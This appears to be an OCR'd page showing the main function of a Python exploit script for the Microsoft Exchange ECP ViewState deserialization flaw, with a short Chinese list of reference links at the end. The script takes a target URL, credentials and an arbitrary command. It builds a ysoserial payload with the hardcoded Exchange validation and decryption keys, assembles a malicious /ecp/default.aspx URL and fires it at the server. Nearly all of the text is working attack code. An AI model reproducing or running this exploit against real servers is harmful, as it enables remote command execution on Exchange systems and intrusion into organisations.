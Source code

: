     def main():
        parser = argparse.ArgumentParser()
        parser.add_argument("-s", "--server", required=True, help="ECP Server URL Example: http://ip/owa")
        parser.add_argument("-u", "--user", required=True, help="login account Example: domain\\user")
        parser.add_argument("-p", "--password", required=True, help="Password")
        parser.add_argument("-c", "--cmd", help="Command u want to execute", required=True)
        parser.add_argument("-e", "--encrypt", help="Encrypt the payload", action='store_true',default=False)
        args = parser.parse_args()
        url = args.server
        print("[*] Start to exploit..")
        user = args.user
        pwd = args.password
        command = args.cmd
        view, key, base_url = get_value(url, user, pwd)
        if key is None:
            key = 'test'
            sys.exit(1)
        ex_payload = """ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "{}" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="{}" --viewstateuserkey="{}" --islegacy """.format(command,view,key)
        if args.encrypt:
            re_payload = ex_payload + ' --decryptionalg="3DES" --decryptionkey="E9D2490BD0075B51D1BA5288514514AF" --isencrypted'
        else:
            re_payload = ex_payload + " --isdebug"
        print("\n"+re_payload)
        out_payload = ysoserial(re_payload)
        if args.encrypt:
            final_exp = "{}/ecp/default.aspx?__VIEWSTATEENCRYPTED=&__VIEWSTATE={}".format(base_url, quote(out_payload))
        else:
            final_exp = "{}/ecp/default.aspx?__VIEWSTATEGENERATOR={}&__VIEWSTATE={}".format(base_url, view, quote(out_payload))
        print("\n[+] Exp url: {}".format(final_exp))
        print("\n[*] Auto trigger payload..")
        status = session.get(final_exp,verify=False,timeout=15)
        if status.status_code==500:
            print("[*] Status code: %i, Maybe success!" % status.status_code)

    if __name__ == "__main__":
        main()

参考链接
--------

> <https://www.anquanke.com/post/id/199772>
>
> <https://www.t00ls.net/thread-55149-1-1.html>
